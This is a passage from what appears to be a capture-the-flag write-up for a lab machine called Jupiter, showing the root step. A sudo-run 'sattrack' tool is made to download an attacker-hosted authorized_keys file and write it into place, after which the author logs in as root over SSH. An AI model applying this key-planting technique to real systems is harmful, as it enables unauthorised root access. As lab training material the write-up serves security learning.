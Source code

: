 ```
                "pos",
                "vel"
        ]
}

```

When I run this, there’s a a hit at my webserver:

```
10.10.11.216 - - [31/Aug/2023 21:16:10] "GET /authorized_keys HTTP/1.1" 200 -

```

It reports that it got the file, but then complains that it wasn’t a valid file, likely because it isn’t formatted as expected.

```
jovian@jupiter:~$ sudo sattrack
Satellite Tracking System
Get:0 http://10.10.14.6/authorized_keys
tlefile is not a valid file
jovian@jupiter:~$

```

Still, it must have written, as I can now log in as root over SSH:

```
oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@jupiter.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-72-generic x86_64)
...[snip]...
root@jupiter:~#

```





